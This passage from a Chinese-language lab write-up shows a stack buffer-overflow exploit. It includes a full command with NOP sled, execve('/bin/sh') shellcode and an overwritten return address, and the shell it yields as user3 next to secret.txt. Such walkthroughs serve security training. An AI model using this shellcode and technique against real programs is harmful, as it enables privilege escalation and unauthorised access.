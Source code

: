     Program received signal SIGSEGV, Segmentation fault.
    0x0000434343434343 in ?? ()
    ```

+ 查看NOP sled字符串所在位置以及shellcode开头:

    ![Alt text](/style/image/image-413.png)

    Memory Address 取 NOP sled 和 shellcode 之间的地址(如0x7fffffffe398):

    ```
    [user1@ip-10-10-242-128 overflow-4]$ ./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x98\xe3\xff\xff\xff\x7f')")
    new word is doggo\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd1\ufffdf\ufffd\ufffdjqXH\ufffd\ufffdj;XH1\ufffdI\ufffd//bin/shI\ufffdAPH\ufffd\ufffdRWH\ufffd\ufffdj<XH1\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd
    sh-4.2$ 
    ```
+ 获取到user3的shell后查看文件：

    ```
    sh-4.2$
    a.out  buffer-overflow-2  buffer-overflow-2.c  secret.txt
    sh-4.2$ whoami
    user3
    ```
